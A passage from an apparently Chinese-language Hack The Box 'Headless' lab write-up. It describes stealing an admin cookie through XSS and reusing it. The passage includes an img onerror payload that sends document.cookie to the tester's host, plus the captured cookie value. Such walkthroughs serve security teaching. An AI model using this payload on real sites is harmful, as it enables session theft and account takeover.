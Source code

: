 
接下来尝试获取Cookie。  
kali终端开启http服务。burp重放一下之前的请求，Referer头使用payload：`<img src=x onerror=fetch('http://10.10.14.8/?c='+document.cookie);>`——让WAF的警告界面加载不可用图片，触发`onerror`使其访问kali主机，并在URL中带上`document.cookie`参数——我们就可以在kali终端得知Cookie。  
可以发现admin的Cookie为：`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`。

![HTB-Headless-document_cookie](./../evidence-img/HTB-Headless-document_cookie.png){ width='800' }


## Initial Access

### Cookie/会话固定攻击

再次访问`http://10.10.11.8:5000/dashboard`并拦截请求，可以发现Cookie值目前还是我们之前观察到的固定值。将这个Cookie值改为上面说的`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

![HTB-Headless-dashboard](./../evidence-img/HTB-Headless-dashboard.png){ width='600' }
